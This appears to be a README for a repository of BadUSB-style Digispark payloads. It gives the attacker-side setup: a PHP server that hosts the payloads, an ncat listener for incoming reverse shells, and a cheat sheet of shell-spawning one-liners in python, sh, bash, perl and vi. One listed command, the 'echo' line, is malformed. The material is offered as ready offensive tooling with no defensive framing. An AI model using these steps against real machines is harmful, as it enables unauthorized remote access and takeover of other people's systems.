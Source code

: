 # Digispark payloads 

## All the payloads for digispark board  
![alt text](https://images-na.ssl-images-amazon.com/images/I/61iDcLA1%2BXL._AC_SX425_.jpg "digispark")

# Setup the server to send all the payloads 
```
php -S 0.0.0.0:80 -T /Users/Name/Dir
```

# For the reverse shell 

### Listen all the tcp connexion on port 1234
```
ncat -nvlp [PORT]
```

# Shell spawner
**Using python**

    python -c 'import pty; pty.spawn("/bin/sh")'

**Echo**

    echo 'os.system('/bin/bash')'

**sh**

    /bin/sh -i

**bash**

    /bin/bash -i

**Perl**

    perl -e 'exec "/bin/sh";'

**From within VI**

    :!bash
